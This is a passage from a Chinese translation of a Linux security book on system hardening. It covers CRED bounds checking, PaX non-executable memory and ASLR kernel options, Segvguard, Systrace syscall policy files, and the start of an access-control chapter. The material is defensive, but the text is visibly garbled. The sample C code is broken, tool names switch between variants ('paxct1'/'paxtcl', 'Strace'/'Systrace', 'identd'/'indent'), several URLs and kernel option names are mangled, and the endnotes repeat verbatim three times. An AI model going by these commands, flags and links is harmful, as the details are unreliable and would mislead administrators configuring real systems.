受 `Jones/Kelly` 方法启发，斯坦福大学的 `Olatunji Ruwas` 和 `Monica Lam` 提出了他们的改进，结果是 `CRED`（C范围错误检测器）[Ruwas04]。`CRED` 通过允许不导致缓冲区溢出的越界指针来放宽对越界指针的限制，解决了原始边界检查的不兼容问题。为了实现这一点，为每个越界指针创建一个特殊的 `OOB`（越界）对象，并将指针值更改为该对象的地址。对象本身包含以下两个值：指针持有的原始（越界）地址，以及它所引用的对象。当越界指针随后被解引用时，`CRED` 使用 `OOB` 对象来确定指针应该引用的对象，如果指针没有引用该对象，则抛出错误。

由于它只保护会导致缓冲区溢出的越界指针，`CRED` 提供的性能显著高于 `Jones/Kelly` 方法。`Ruwas` 和 `Lam` 编译的图表显示，速度下降了 44% 到 130%（与 `Jones/Kelly` 的理想情况 1000% 相比）。

边界检查（带有 `CRED` 改进）被实现为 `GCC` 的补丁，可以从 `http://web.inter-nl.net/hcc/Haj.Ten.Brussel!` 获取。由于安装过程与 `SSP` 非常相似，请参考该章节关于如何应用补丁和编译 `GCC` 的讨论。要启用边界检查，应向编译传递 `-fbounds-checking` 标志——如下例所示，该示例展示了边界检查的运行：

```c
/* bounds-example.c */
main() {
  char *malloc(0); char *a = malloc(2);
  a[2] = 'x';
}
```

`$ gcc -fbounds-checking bounds-example.c -o bounds-example`

`./bounds-example`

`Bounds Checking GCC v gcc-3.4.1-3.2 Copyright (C) 1995 Richard W.M. Jones`

`Bounds Checking comes with ABSOLUTELY NO WARRANTY. For details see file 'COPYING' that should come with the source to this program.`

`Bounds Checking is free software, and you are welcome to`

# 系统加固

## PaX

`PaX` 项目 [PaX]（作为更大项目安全的一部分，该项目将在后续章节中介绍）采用了内存保护的第三种方法，即通过将栈设置为不可执行来实现。此外，它还包含许多其他特性，包括地址空间布局随机化（迫使攻击者猜测栈部分部分在内存中的位置）。

## 不可执行内存 (NOEXEC)

回想一下，最常见的缓冲区溢出攻击形式——栈破坏攻击（`stack-smashing attack`），涉及向缓冲区中插入恶意代码，然后修改返回地址以执行该代码。如果将栈设置为不可执行（而且从表面上看，完全没有理由让它是可执行的），此类攻击就会被消除。请注意，这种技术并不能阻止栈的任何部分被重写，它仅仅阻止了重写操作产生任何结果。

在大多数架构上，读取和执行内存页内容的能力是关联的：也就是说，如果一个页面是可读的，它必须也是可执行的。因此，`NOEXEC` 的首要任务是将这两个属性分离，允许它们被独立设置。在 `x86` 平台上，这是一项艰巨的任务（其他架构要灵活得多），并且会导致性能或可用性上的权衡。目前 `PaX` 提供了两种实现 `NOEXEC` 的方法：`PAGEEXEC` 和 `SEGMEX`。`PAGEEXEC` 使用处理器的分页功能，`SEGMEX` 使用处理器的分段功能，且没有性能损失；但它将应用程序的最大可用地址空间从 3 GB 减少到了 1.5 GB。

遗憾的是，某些应用程序依赖于 `malloc()` 分配的内存是可执行，因此在使用 `NOEXEC` 时会崩溃。最著名的例子是 `JRE`（Java 运行时环境）、`wine`（Windows 模拟器）以及 `XFree8` 的 4.x 版本。幸运的是，这些应用程序中，只有 `JRE` 常出现在 `Linux` 服务器上，因此这个问题通常会被忽略。

第二个问题以 `GCC` 跳板（`trampolines`）的形式出现。跳板是在处理嵌套函数时，在运行期间动态创建的微小代码段（这不是标准的 C 特性，而是 `GCC` 的扩展）。遗憾的是，跳板存储在栈上，这使得它们与任何强制不可执行栈的方案都不太兼容。`PaX` 通过捕获并模拟这些跳板来解决这个问题，它将这种方法称为 `EMUTRAP`。

## 地址空间布局随机化 (ASLR)

`ASLR` 的目的是在进程的地址空间中引入随机性，使攻击者难以对栈和任何 `DLL` 在内存中的位置做出任何假设。尽管这看起来像是“通过隐蔽实现安全”，但事实证明这是一种非常有效的方法：攻击者的错误猜测必然会导致应用程序崩溃；而当它重启时，地址空间布局又发生了变化。这防止了攻击者通过暴力破解猜测每一个可能的值，迫使他们使用纯粹的猜测。目前已知的攻击途径仅存在 `fork()` 进程中，因为每个子进程具有相同的地址空间布局。

每个运行的进程都有一个 `/proc/<pid>/maps`，显示了进程使用的内存映射。以下示例显示了 `/bin/cat` 的映射：

在这里你可以看到 `/bin/cat` 的位置以及两个 `DLL`：`ld-2.3.2.so` 和 `libc-2.3.2.so`。如果你对同一个可执行文件反复检查这些映射，你会发现地址（第一列中两个用连字符分隔的数字）不会改变。第二列显示了内存区域的访问权限（读、写和执行）。

`ASLR` 提供的第一种随机化是在使用未指定地址的 `mmap()` 请求中进行基础地址。这导致 `DLL`（如上例中的 `ld-2.3.2.so` 和 `libc-2.3.2.so`）被加载到随机位置。这防御了常见的（但同样危险的）缓冲区溢出方法，即攻击者强制执行跳转到包含在库函数中的代码；即所谓的“返回 `libc`”攻击。

其次，`ASLR` 对用户进程的栈进行随机化，为栈破坏溢出引入了大量的猜测元素。这种随机化倾向于向栈的高端移动，从而减少了进程可用的内存。当与 `SIGMEXEC` 方法结合使用时，进程可以使用的内存限制在 1.25 GB；对于绝大多数应用程序来说仍然足够。`ASLR` 还支持对每个任务的内核栈进行随机化；然而，这可能会导致意外的栈溢出（导致应用程序崩溃），因此不建议常规使用。

最后，`ASLR` 修复了 `Linux` 2.6 中出现的一个新漏洞。新 `vsyscall` 的引入是为了加速信号处理程序和系统调用；遗憾的是，这导致每个任务都存在一个 `vsyscall` 页，且位于相同的位置。`PaX` 包含了可用于“返回 `libc`”类型攻击的代码。防御这种漏洞非常困难，因此 `PaX` 提供了禁用 `vsyscall` 的选项，强制内核回退到 `Linux` 2.4 使用的方法。

### 安装

`PaX` 不需要任何应用程序重新编译，但由于它是内核补丁，它需要重新编译内核。补丁可以从 `http://pax.security.net/` 下载，提供适用于 2.4 和 2.6 内核树的版本。从 `kernel.org` 下载相应的内核，解压并进入目录。

- `模拟跳板` (`CONFIG_PAX_EMUTRAM`): 启用此选项允许管理员使用 `pax-ct1` 按文件应用跳板模拟。如果未选择此选项，则使用跳板的可执行文件需要禁用其 `NOEXEC` 特性。请启用此选项。

- `限制` `mprotect()`: 此选项防止进程将只读页面变为可写页面、将不可执行页面变为可执行页面，或从匿名内存区域创建可执行页面。这些限制对于消除可能绕过 `PaX` 的方法至关重要。

# ASLR

鉴于 `ASLR` 对性能的影响很小且有效，你应该启用所有 `ASLR` 特性，内核栈随机化（`CONFIG_PAX_RANDSTACK`）除外。其余两个随机化选项也可以使用 `paxct1` 按文件启用或禁用。

- `地址空间布局随机化` (`CONFIG_PAX_ASLR`): 选择此选项以开启 `ASLR`。

- `随机化内核栈基地址` (`CONFIG_PAX_RANDKSTACK`): 随机每个进程的内核栈。这会导致意外崩溃，不建议使用。

- `随机化用户栈基地址` (`CONFIG_PAX_RANDSTACK`): 随机化栈上项目的顺序，使栈破坏变得更加困难。

- `随机化` `mmap()` `基地址` (`CONFIG_PAX_RANDMMAP`): 随机 `DLL` 的地址位置。

- `禁用` `vsyscall` `页面` (`CONFIG_PAX_NOVSYSALL`): 启用此项以修复新 `vyscall` 引入的潜在漏洞。

# 使用 paxct1 进行用户态配置

如前所述，`PaX` 提供了 `paxct1` 用户工具来配置其行为的各个方面。`paxct1` 可从 `http://pax.grsecurity.net/` 获取，并在编译启用 `PaX` 的内核后安装。

`paxct1` 允许管理员按文件设置和查看 `PaX` 配置选项，如在不带参数运行 `PaX` 时产生的用法信息所示：

```
# paxct1
pax control v0.2
Copyright 2004 PaX Team <pageexec@freemail.hu>
```

# 320 Linux 网络安全


## 用法
`paxtcl <options> <files>`

### 选项
- `-p`：禁用 `PAGEEXEC`；`-P`：启用 `PAGEEXEC`
- `-e`：禁用 `EMUTRMAP`；`-E`：启用 `EMUTRMAP`
- `-m`：禁用 `MPROTECT`；`-M`：启用 `MPROTECT`
- `-r`：禁用 `RANDMAP`；`-R`：启用 `RANDMAP`
- `-x`：禁用 `RANDEXEC`；`-X`：启用 `RANDEXEC`
- `-s`：禁用 `SEGMEXEC`；`-S`：启用 `SEGMEXEC`
- `-v`：查看标记；`-z`：恢复默认标记
- `-q`：静制错误消息；`-Q`：简报标记

### 标记格式
例如：
```
# paxtcl -v /usr/bin/
PaX control v0.2
Copyright 2004 PaX Team <pageexec@freemail.hu>
```

- PaX 标记：`--M--ER- [/usr/X11R6/bin/XFree86]`

`MPROTECT` 已启用

`EMUTRAMP` 已启用

`RANDMAP` 已启用

为了实验目的，你可能想以软模式运行系统一短时间，仅在少数测试服务上启用 `PaX`。当你对其完全满意后，以正常模式启动，使所有可执行文件默认启用 `PaX`。如果应用程序在 `PaX` 下运行异常（可能是由于跳板，或预期 `malloc()` 分配的内存是可执行的），你随后可以禁用它们的部分或全部保护（唯一与 `PaX` 不兼容的应用程序是 `XFree86`）。请记住，由于 `PaX` 控制标记存储在可执行文件的头中，它们在重启后将仍然存在，但重新安装应用程序会导致任何分配给该可执行文件的 `Pax` 标记丢失。你可能想创建一个在启动时执行并包含 `paxtcl` 命令的 shell 脚本。

# 缓冲区溢出检测
`PaX` 的 `ASLR` 特性非常有用，但因为其依赖随机性，理论上只要有足够的时间是可以被破解的。由于错误的猜测将不可避免地导致应用程序崩溃，因此，一个不断崩溃的服务（大多数服务被配置为崩溃后自动重启）可能是攻击者正尝试缓冲区溢出攻击的迹。为了防止攻击者在 `ASLR` 保护的进程中猜测正确内存布局的可能性（远程），你需要限制守护进程在给定时间内允许重启的次数。

设置此限制的工具之一是 `Segvguard`，可从 `ftp://fp.pl.open.com/misc/segvguard/` 获取。`Segvguard` 由两部分组成：一个内核模块和一个用户态守护进程（`segvdaemon`）。该模块拦截 `SIGGV`、`SIGKILL`、`SIGBUS` 和 `SIGILL` 信号，并将进程临时暂停在 `TASK_UNINTERRUPTIBLE` 状态。它通知被拦截的信号，并等待 `segvdaemon` 提供进一步指令。

什么构成潜在攻击由用户态守护进程 `segvdaemon` 决定。目前，`Segvguard` 将具有以下属性的崩溃视为潜在攻击：

- 进程正在以 `SUID` 运行。
- 导致崩溃的用户 `UID` 与执行该进程的 `UID` 不符。
- 进程 `UID` 为 `0`（以 `root` 身份运行）。

# 系统加固 323
## 8.5 使用 STRACE 策略系统调用
“系统调用”一词被管理员频繁使用，但他们往往没有完全理解其含义。简单来说，系统调用是用户空间应用程序向内核请求资源或操作的手段；其形式可能表现为（例如）创建目录（`sys_mkdir`）、设置系统时钟（`sys_stime`）或挂载文件系统（`sys_mount`）。`Linux` 定义了超过 200 多个系统调用，涵盖了从文件处理到内存管理的广泛功能。你可以在 `http://linuxassembly.org/syscall.html` 查看完整列表。

在本章早前的“`Strace`”部分中，我们曾将 `strace` 视为查看进程所发系统调用的手段；你可能想要回顾一下这个系统调用，因为该命令对 `Linux` 的内部工作机制提供了有趣的见解。你可能会惊讶于执行像 `pwd` 或 `uname` 这样的典型程序时，竟然使用了如此多的系统调用。

从安全的角度来看，系统调用特别有趣，因为如果我们能控制对它们的访问，就可以紧密且细粒度地控制用户或进程在系统上的权限。在 `OpenBSD` 世界中，用于此目的的流行程序是 `Strace` (`http://www.strace.org`)，并且提供了 `Linux` 端口。

对于它所保护的每个应用程序，`Strace` 维护一个策略文件，规定允许哪些系统调用。未在该文件中列出的调用将被拒绝，并向 `syslog` 发送错误消息。然而，与仅仅复制实际系统调用的类似项目不同，`Strace` 还会监控给它的参数。这使得例如，可以允许网络守护进程使用 `sys_bind()` 调用，但仅绑定到特定端口；或者允许守护进程读取其配置文件，但不允许读取 `/etc` 中的其他文件。预判应用程序可能进行的每一个系统调用是棘困难的，因此 `Strace` 还提供了一种交互式学习模式，在此模式下它将监控应用程序并尝试构建一个合适的策略文件。这消除了大部分繁性工作。

### 安装
`Strace` 以内核补丁、用户空间管理工具以及（可选的）`GTK`（`GIMP Toolkit`）前端的形式提供；所有这三者都可以从 `http://www.citi.umich.edu/u/pro/strace/` 获取。用户空间应用程序的源代码不特定于平台，但在下载内核补丁时，请确保选择 `Linux` 端口。

补丁和编译内核是我们迄今已多次涵盖的话题，因此我们在此不再详述。在将 `Strace` 补丁应用到内核源码后，`Linux` 安全选项菜单中会创建一个 `Strace` 支持（`CONFIG_SYSTRACE`）选项（假设你正在使用 `2.6.x` 内核）。启用此选项。

现在你已经重新编译了内核，可以安装用户空间工具了。`Strace` 需要 `libevent`（可从 `http://monkey.org/~provos/libevent/` 获取），因此你需要先安装它。在配置 `Strace` 时，你可能还需要指定 `libevent` 的安装路径：
```
$ ./configure --with-libevent=/usr/local
```

然后你可以像往常一样构建应用程序：
```bash
# make
# make install
```

如果编译失败并提示错误未找到 `linux/strace.h`，这表明补丁未正确应用。通过将内核补丁中的 `strace.h` 复制到 `/usr/include/linux` 可以轻松解决此问题：
```bash
# cp /usr/src/linux-2.6.1/include/linux/strace.h \
/usr/include/linux/strace.h
```

然后尝试再次 `make`。

# 策略文件的组件
如前所述，策略文件构成了 `Strace` 的核心，精确定义了允许应用程序进行的系统调用（及其参数）。策略可能存储在 `/etc/strace` 目录下——这是 `Strace` 查找的第一个位置。如果没有找到策略文件，`Strace` 会 `~/.strace` 中查找。策略的文件名基于相关应用程序的名称（包括路径），并将正斜杠替换为下划线，例如 `usr_bin_ls`。

# 通用语法
典型策略文件的摘可能如下：
```
Policy: /bin/login, Emulation: linux
linux-newname: permit
linux-brk: permit
linux-old_mmap: permit
linux-fsread: filename eq "/etc/ld.so.preload" then permit
linux-fsread: filename eq "/etc/ld.so.cache" then permit
```

第一行定义了策略所应用的文件（在本例中为 `/bin/login`）以及使用的仿真模式。目前支持 `native`（针对 `OpenBSD`）和 `linux`；自然地我们需要后者。策略文件的其余行是单独的规则，其形式为：
```
<emulation type>-<system call>: <action> [log]
```

为了更具灵活性，还可以进行比较：
```
<emulation type>-<system call>: <term 1> ! <comparison operator> <term 2> then <action> [log]
```

其中 `action` 为 `permit`、`ask` 或 `deny`。因为未显式允许的操作将被自动拒绝，因此 `deny` 动作的价值有限。

# 比较
比较运算符允许你匹配传递给系统调用的参数。考虑规则：
```
linux-bind: permit
```

这允许进程绑定到 `TCP/IP` 端口。更好的做法是仅允许绑定到特定地址。以下是改进版本：
```
linux-bind: sockaddr eq "*inet-[0.0.0.0]:22" then permit
```

对于系统调用匹配的属性列表，请参阅手册页（例如 `man bind`）。可以使用以下比较运算符：

- `match`: 允许基本通配符，例如 `"/bin*"`
- `eq`: 两个项相等，例如 `filename "/bin/sh"`
- `ne`: 两个项不等。


- `sub`: `term2` 是 `term1` 的子字符串，例如 `filename "/dev/"`

- `nsub`: `term2` 不是 `term1` 的子字符串。

- `re`: 则匹配，例如 `filename "^\dev/"`

正则表达式匹配是一个强大的功能，但也非常消耗资源。在许多情况下，`eq` 或 `sub` 同样有效，你应该尽可能使用这些。

# 别名

许多系统调用具有相似的功能，为每一个创建几乎相同的记录变得繁琐。Strace 通过创建别名来减轻这种负担。目前支持的别名有：

- `fsread`: `access()`、`istat()`、`readlink()` 和 `stat()` 的别名。

- `fswrite`: `mkdir()`、`rmdir()` 和 `unlink()` 的别名。

`open()` 调用可以读取或写入（取决于传递它的参数），并被别名为 `fsread` 和 `fswrite`。

# 动作

如前所述，目标动作可以是 `deny`、`ask` 或 `permit`，可选跟随单词 `log`。`deny` 动作允许定义发送回应用程序的错误消息——这非常有用，因为可能会可能会收到的错误做出不同反应。考虑以下示例：

```
linux-fsread: filename "/etc/inetd.conf" deny[enoent]
linux-fsread: filename eq "/etc/inetd.conf" deny[eperm]
linux-fsread: filename eq "/etc/inetd.conf" deny[eipe]
```

第一个 (`enoent`) 返回没有该文件或目录，第二个 (`eperm`) 返回不允许操作，第三个 (`eipe`) 返回管道破坏。尝试访问文件时，`eipe` 通常只在文件位于网络文件系统（如 NFS）时。你可以在 `/usr/include/asm-i386/errno.h` 文件获取完整的错误代码列表。

`permit` 动作还有一个扩展，允许你指定调用应该运行的用户 ID。例如，为了允许服务绑定到 1024 以下的端口（这通常需要 `root` 权限），你可以说：

```
linux-bind: sockaddr eq "*inet-[0.0.0.0]:53" then permit
```

这种权限提升的方法可以很大程度上消除对 `SUID/SGID` 二进制文件的需求。

# 系统加固 327

最后，`ask` 会导致 Strace 在发生指定的条件时向所有者请求策略决策。我们将在本节之后讨论这些机制。现在，请注意等待所有者的决策会导致进程挂起。

# 策略文件创建

虽然策略文件的语法相对简单，但为了深入理解 Linux 到底是如何工作的，你还需要预判应用程序可能执行的每一个系统调用。最好的开始是使用在本节之前介绍的工具来监控应用程序。现在你有了策略文件的基础，就可以配合 `systrace` 运行应用程序（我们将在后文中讨论），并监控策略违规行为。根据违规的性质，你可以添加或修改策略规则。

你可以看到，这种方法相当繁琐（容易出错）；

# 自动策略生成

Systrace 最强大的功能之一是它的学习模式，在此模式下，它观察应用程序的系统调用，并根据这些调用自动生成策略文件。之后可能仍然需要微调策略，但这样做可以节省大量工作。要以这种方式自动生成策略文件，使用 `-A` 参数切换到学习模式。任何跟随应用程序名称的文本都被视为 Systrace 的参数：

```
# systrace -A /usr/sbin/identd
```

在此示例中，ident 服务器现在运行在学习模式下。如果我们检查进程列表，可以看到两个进程——一个监控系统的守护进程，另一个是守护进程（绑定到端口 113 并以 `nobody` 身份运行）：

```
root      2261 0.0 2 1644 688 ? S      07:13:00
nobody    2262 0.0 1 1392 424 ? S      07:13:00
```

在学习模式下，你应该尝试各种方式使用应用程序，以确保所有可能的行为都经过测试。在 `indent` 示例中，连接到了 IRC 服务器，但你需要执行正向和反向地址查找——如果名称服务器与主服务器或备服务器通信——触发区域传输。在确认应用程序在各种条件下都经过充分测试后，可以杀死它，强制 Strace 写出其生成的策略文件。（注意，你应该杀死应用程序本身，而不是 pid 为 2262 的 Strace 进程。当应用程序被杀死时，Strace 进程会自动退出。）

你现在可以检查 `/root/.strace` 下新创建的策略文件：

```
# cat /root/.strace/usr_sbin_indent
Policy: /usr/sbin/indent, Emulation: linux
linux-newname: permit
linux-brk: permit
linux-old_mmap: permit
linux-fsread: filename eq "/etc/ld.so.preload" then permit
linux-fsread: filename eq "/etc/ld.so.cache" then permit
linux-fstat64: permit
linux-close: permit
linux-fsread: filename eq "/lib/tls/libc.so.6" then permit
linux-read: permit
linux-ni_syscall-34: permit
linux-munmap: permit
linux-rt_sigaction: permit
linux-alarm: permit
linux-getpeername: true then permit
linux-write: permit
linux-ni_syscall-43: permit
linux-clone: permit
linux-setsid: permit
linux-chdir: filename eq "*" then permit
linux-fwriteite: filename eq "/dev/null" then permit
linux-dup2: permit
linux-socket: sockdom eq "AF_INET" and socktype eq "SOCK_STREAM" then permit
linux-setsockopt: true then permit
linux-bind: sockaddr eq "inet-[0.0.0.0]:113" then permit
linux-listen: true then permit
linux-socket: sockdom eq "AF_UNIX" and socktype eq "SOCK_STREAM" then permit
linux-connect: sockaddr eq "/var/run/.nsc_socket" then permit
linux-fsread: filename eq "/etc/nswitch.conf" then permit
linux-mma2: permit
linux-fsread: filename eq "/lib/libns_files.so.2" then permit
linux-fsread: filename eq "/etc/passwd" then permit
linux-fnt64: permit
linux-setuid: uid eq "99" and uname eq "nobody" then permit
linux-accept: true then permit
linux-getsockname: true then permit
linux-wait4: permit
linux-sigreturn: permit
```

当你对 `systrace` 变得熟悉，你将理解策略文件中预期的规则类型，并能够发现错误。目前，你可能应该直接接受自动生成的规则。

自动策略生成：无论你是使用自动生成的策略文件还是自己编写，你都需要监控应用程序的行为并纠正错误或添加缺失的规则。运行期间，任何违规都会记录在 `/var/log/messages` 中。

# 策略执行

现在已经有了策略文件，下一步是实际执行它。这是通过带上 `-a` 参数启动 Systrace 实现的：

```
# systrace -a /usr/sbin/identd
```

这会导致守护进程在加载策略的情况下启动。

# 交互式执行

Systrace 还提供了另一种策略执行方法，称为交互模式。在交互模式下，策略文件中未明确允许的操作都会导致 Strace 通知所有者（通常是管理员）并请求决策。要启用交互式保护，不带任何标志启动应用程序 Systrace：

```
# systrace /usr/sbin/identd
```

在有了策略文件的情况下，交互模式现在会提示管理员，而不是简单的拒绝操作，如图 8.6 所示。


当你已经生成了自动策略文件，但不确定它是否涵盖了所有情况时，交互模式非常有用。缺点是，管理员必须在违规发生时随时待命处理：当产生警报时，进程将一直挂起直到问题解决。

## 第三策略文件

尽管 `Systrace` 的自动策略生成消除了编写策略文件相关的大部分困难工作，但它仍然需要管理员监控应用程序的行为并纠正错误或添加缺失规则。毛眼球项目（`http://blafasel.org/~floh/hei/`）列出了从 `sed` 到 `gain` 等 200 多个应用程序策略文件，其显著优势是这些策略经过了良好的测试，并且证明是完整且正确的。遗憾的是，目前列出的所有策略文件都是为 `OpenBSD` 开发的。

### 332 Linux 网络安全

如果不经修改无法在 `Linux` 上运行；然而，对于想要编写自己的策略的管理员来说，它们形成了一个非常有用的起点。

#### 总结

在本章中，我们考虑了各种系统加固技术，这些技术应该让你的机器对攻击（无论是来自远程还是本地用户）更具韧性。

服务或 `SUID/GID` 二进制文件中的栈溢出攻击（缓冲区溢出是最常见的一种）可能是 `Linux` 上最大的单一威胁，我们讨论了应对这种威胁的方法。涵盖了六种方法——每种方法都有其优缺点，我们在这里对其进行了总结：

- `StackGuard`：`GCC` 补丁。防止缓冲区溢出，但不能防止其他形式的栈溢出。目前没有适用于 `GCC 3` 的版本。需要应用程序重新编译。

- `SSP`：`GCC` 补丁。使用了由 `StackGuard` 开创的金丝雀技术，并对其进行了改进，防止所有类的栈溢出攻击。需要应用程序重新编译。

- `Bounds Checking`（边界检查）：`GCC` 补丁。开销极高，且会破坏许多应用程序。需要应用程序重新编译，但非常有效。

- `CRED`：`GCC` 补丁。改进了边界检查，降低了开销并大大提高了兼容性。需要应用程序重新编译。

- `Libsafe`：动态链接库（`DLL`）。开销适中（约 10%），其主要优势是易于使用：不需要重新编译应用程序。

- `PaX`：内核补丁。包含了许多防止普通内存漏洞利用的特性。可以按进程启用，但需要重新编译内核。

最终，决定使用哪种（如果使用的话）取决于你。这些方法中没有是完美的，可能会导致虚假的安全感。你永远不应该将部署任何一种方法作为在“认为系统无懈可击”的错觉下不正确配置服务的借口。

我们还检查了系统调用，并看到限制系统调用如何对 `Linux` 系统上可以执行的操作进行细粒度的控制。像 `Systrace` 这样的应用程序允许你创建策略，定义应用程序可以进行的调用（以及传递给这些调用的参数）——这是限制应用程序权限、从而限制其可能被利用风险的有用方法。在下一章中，系统调用将再次出现，我们将看到限制其使用的其他方法。

最后，我们还涵盖了使用 `chroot` 将服务限制在文件系统的特定部分，从而有效地对其进行沙箱化。我们查看了确定如何构建 `chroot` 监狱的技巧，并考虑了该方法的某些局限性。在第 11 章“保持安全”中，我们将提供针对 `Apache` 和 `BIND` 等特定服务的监狱化示例。

本章主要侧重于服务安全，但访问控制的问题仍然存在。`UNIX` 的用户和权限系统是一个相当粗线条的工具：有时用户拥有的权力比需要的多，而其他时候用户权力不足，这成了下一章的基础。

## 尾注

- 1. `http://www.linuxus.org` 仅针对 `x86` 架构就列出了 60 多种分发版，因此，“热门”发行版的简要列表总是会带有某种主观性；通过未在该列表中包含某个特定的发行版，我们并不是在暗示它低劣，仅仅是在我们看来——它不像其他发行那么流行。我们还关注了在北美、欧洲和澳大利亚流行的发行版；在世界其他地区（特别是远东），发行版流行程度的模式有所不同。

- 2. 主动代码审查指的是检查应用程序源代码以寻找潜在不安全因素的过程，在 `OpenBSD` 中被广泛使用。为了避免重复轮子，许多应用程序使用了几十年前的库和代码（即使经过细微修改）。远程漏洞可能潜伏在应用程序中等待被发现，这种想法并不是大多数管理员想要考虑的。鉴于 `Linux` 代码量之大，`Openwall` 侧重于审计特别敏感的代码，例如库、`SUID` 文件和通常由 `root` 运行的进程。

- 3. 回想一下栈向下增长，而字符串向上增长。因此，金丝雀（`canary`）位于 `RET`（返回指令）之后。相反，如果缓冲区溢出，它会向上增长，首先覆盖局部变量。

- 4. 尽管在编写时由两个字符组成，但它实际上只有一个字符（`\` 用于转义后续字符序列），并且只占用一个字节内存。该字符也被称为 `NULL`。

- 5. `http://www.linuxus.org` 仅针对 `x86` 架构就列出了 60 多种分发版，因此，“热门”发行版的简要列表总是会带有某种主观性；通过未在该列表中包含某个特定的发行版，我们并不是在暗示它低劣，仅仅是在我们看来——它不像其他发行那么流行。

我们还关注了在北美、欧洲和澳大利亚流行的发行版；在世界其他地区（特别是远东），发行版流行程度的模式有所不同。

- 6. 主动代码审查指的是检查应用程序源代码以寻找潜在不安全因素的过程，在 `OpenBSD` 中被广泛使用。为了避免重复轮子，许多应用程序使用了几十年前的库和代码（即使经过细微修改）。远程漏洞可能潜伏在应用程序中等待被发现，这种想法并不是大多数管理员想要考虑的。鉴于 `Linux` 代码量之大，`Openwall` 侧重于审计特别敏感的代码，例如库、`SUID` 文件和通常由 `root` 运行的进程。

- 7. 回想一下栈向下增长，而字符串向上增长。因此，金丝雀（`canary`）位于 `RET` 之后。相反，如果缓冲区溢出，它会向上增长，首先覆盖局部变量。

- 8. 尽管在编写时由两个字符组成，但它实际上只有一个字符（`\` 用于转义后续字符序列），并且只占用一个字节内存。该字符也被称为 `NULL`。

- 9. `http://www.linuxus.org` 仅针对 `x86` 架构就列出了 60 多种分发版，因此，“热门”发行版的简要列表总是会带有某种主观性；通过未在该列表中包含某个特定的发行版，我们并不是在暗示它低劣，仅仅是在我们看来——它不像其他发行那么流行。我们还关注了在北美、欧洲和澳大利亚流行的发行版；在世界其他地区（特别是远东），发行版流行程度的模式有所不同。

- 10. 主动代码审查指的是检查应用程序源代码以寻找潜在不安全因素的过程，在 `OpenBSD` 中被广泛使用。为了避免重复轮子，许多应用程序使用了几十年前的库和代码（即使经过细微修改）。远程漏洞可能潜伏在应用程序中等待被发现，这种想法并不是大多数管理员想要考虑的。鉴于 `Linux` 代码量之大，`Openwall` 侧重于审计特别敏感的代码，例如库、`SUID` 文件和通常由 `root` 运行的进程。

- 11. 回想一下栈向下增长，而字符串向上增长。因此，金丝雀（`canary`）位于 `RET` 之后。相反，如果缓冲区溢出，它会向上增长，首先覆盖局部变量。

- 12. 尽管在编写时由两个字符组成，但它实际上只有一个字符（`\` 用于转义后续字符序列），并且只占用一个字节内存。该字符也被称为 `NULL`。

### 参考文献

- `[Cowan00]`: Cowen, Crispan et al., "Buffer Overflows: Attacks and Defenses for the Decade." 在线可用：`http://www.immunity.com/pdfs/dis00.`

- `[Cowan98]`: Cowen, Crispan et al., "StackGuard: Adaptive Detection and Prevention of Buffer-Overflow Attacks." 在线可用：`http://www.openix.org/StackGuard/usenix98.`

- `[Libsafe]`: Libsafe 项目。在线可用：`http://www.research.avlabs.com/project/libsafe`

- `[Rwas04]`: Ruwat, Olatuni and Lam, Monica S., "A Practical Dynamic Overflow Detector." 在线可用：`http://suif.stanford.edu/papers/tunj04.`

- `[SSP]`: Stack-smashing Protector。在线可用：`http://www.trl.ibm.com/projects/security/ssp`

- `[Wagle93]`: Wagle, Perry M, "StackGuard: Simple Overflow Protection for GCC," 收录于 "Proceedings of the GCC Developers Summit, 2003." 在线可用：`http://www.linux.org.uk/~ajh/gccsummit-2003-proceedings.pdf`

# 9 访问控制

- 访问控制简介

- 基于 `Grsecurity` 角色的访问控制

- `LIDS`：Linux 侵入检测系统 (`LIDS`)

- 其他访问控制项目


尽管 Linux 和其他 Unix 系统的多用户特性被视为优势，但它并不完美。计算机安全中的一个重要概念是最小权限原则（进程或用户[即使是 root]应该只拥有完成其任务所需的权限），但传统的 Unix 多用户模型违背了这一规则，赋予任何拥有 root 权限的用户或进程对系统的完全控制。在许多情况下，赋予非特权用户的权力可能是过大的（一个只需登录检查邮件的用户不需要编译源代码或启动后台守护进程）。

# 336 Linux 网络安全

## 9.1 访问控制简介

近年来，许多研究都集中在让 Linux 拥有更细粒度的访问控制，在本章中，我们将探索一些最流行的方法。这些方法并非胆小者所为，需要相当详尽的配置，并且要有耐心与访问控制不再松散的系统打交道；然而，最终结果是一个强大得多的系统，能够威慑即使是最顽固的攻击者。我们首先对标准的 Unix 访问模型进行回顾。

### 自主性访问控制 (DAC)

标准用户和权限系统（所有 Unix 用户都熟悉该系统）的正式名称是自主性访问控制（DAC）。在 DAC 系统中，对对象（如文件等资源）的访问由其所有者通过文件权限进行控制；也就是说，所有者对谁可以访问该对象以及以何种模式（例如，读取、写入或执行）具有自裁的控制权。

### 强制性访问控制 (MAC)

在强制性访问控制（MAC）系统中，对象的所有者并不控制对其的访问——而是由管理员控制。MAC 导致对全能 root 账户的重视显著减少；而是将管理任务分配给不同的用户（或使用 MAC 术语，称为身份）。MAC 仅是一个理论模型，并有许多实现。

### 领域类型强制 (DTE)

领域类型强制（DTE）是一种基于最小权限原则的 MAC 实现——也就是说，进程应该只被授予其所需的权限。在 DTE 中，对象（文件）被分为不同的类型，主体（进程）被分为不同的领域。然后，通过领域定义表（DDT）强制执行领域和类型之间如何相互作用。

### 访问控制列表 (ACL)

在 Unix 系统中，文件权限由文件模式定义：`9`位位决定了谁可以访问文件以及以什么方式访问。这允许了三类用户（所有者、组、其他）和三类访问权限（读取、写入、执行）。

`ext2`和`ext3`文件系统（Linux 下最常用的文件系统）都支持使用扩展属性（EAs），允许将任意数据（以名称:值对的形式）与文件关联。当在内核中启用时，这些扩展属性可用于维护额外用户组的权限，从而创建访问控制列表（ACLs）。因此，ACL 可以被视为传统权限模型的扩展。

### 基于角色的访问控制

在基于角色的访问控制（RBAC）系统中，每个用户都被分配一个或多个他可以承担的角色（角色与用户 ID 分离），允许他执行特定的任务。例如，管理员可以创建一个用于 DNS 管理的角色，允许承担该角色的用户创建和修改区域文件并启动/重启`named`。这使得授予角色的权限可以被非常紧密地控制，符合最小权限的思想。

### 权限 (Capabilities)

从内核 2.1 版本开始，Linux 将 root 的权力拆分为一系列操作，称为`capabilities`（能力）。每个能力都代表了 root 权力的一个方面（例如`CAP_CHOWN`，更改文件所有权的能力）；由于它们是离散的，进程可以拥有这些能力的任何组合——包括一个都没有，或全部。

